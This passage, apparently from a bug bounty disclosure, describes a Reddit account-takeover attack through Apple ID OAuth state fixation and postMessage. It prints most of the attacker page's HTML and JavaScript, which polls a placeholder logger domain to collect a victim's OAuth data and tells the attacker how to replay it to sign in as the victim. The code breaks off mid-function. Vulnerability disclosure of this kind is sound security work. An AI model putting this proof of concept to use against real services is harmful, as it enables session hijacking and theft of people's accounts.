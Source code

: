 Here's a video to show the flow, as you will see in the beginning - the attacker has the red profile in Chrome. He will open his own session with Apple and copy the state to the attacker-page, and then send the link to the victim (in the gray profile of Chrome). When the code shows up on the attacker's page later, that's where the attacker then takes over again and uses its incognito browser window to sign in as the victim by posting the postMessage from his Apple-ID sign in popup to Reddit:

{F1726830}

And here's a link for testing:

```
https://fransrosen.com/reddit-hijack-424342.html
```

# Technical details

Here's the HTML of the malicious page:

```html
<html>
<style>pre { word-break: break-word; white-space: pre-wrap; }</style>
<body>
<div id="start">
Attacker, enter your Apple ID-OAuth URL when trying to <a href="https://reddit.com" target="_blank">sign in to Reddit here</a>:<br />
<input id="state">
<button onclick="launch(extractstate(document.getElementById('state').value), true)">Generate a victim URL with attacker's state</button>
</div>


<div id="fr"></div>

<script>
var inj, monitor;
function extractstate(st) {
    return st.indexOf('&state=') !== -1 ? st.split('&state=')[1].split('&')[0] : st;
}
function startmonitor(st) {
    history.pushState('/','/',location.pathname + '?monitor&state=' + st)
    monitor = setInterval(function() {
        fetch('https://MY-LOGGER-DOMAIN/reddit/parse.php?q=' + st).then(e => e.text()).then(e => {
            if (e.length) {
                document.getElementById('fr').innerText = 'Attacker, log in to Reddit by running this in the console from Apple-ID popup: ';
                var p = document.createElement('pre');
                p.innerText = 'opener.postMessage(\'' + unescape(e.trim()) + '\',"*");';
                document.getElementById('fr').appendChild(p)
                clearInterval(monitor);
            }
        });
    }, 2000);
}
function launch(st, showonly) {
    if (showonly) {
        history.pushState('/','/',location.pathname + '?state=' + st)
        document.getElementById('fr').innerText = 'Send this link to victim: ';
        var p = document.createElement('pre');
        p.innerText = location.href;
        document.getElementById('fr').appendChild(p);
        startmonitor(st);
    } else {
        document.getElementById('fr').innerHTML = '<iframe src="https://www.redditmedia.com/gtm/jail?id=GTM-N3HH8D6&state=' + encodeURIComponent(st) + '" frameborder=0 style="width: 500px; height: 300px"></iframe>';
```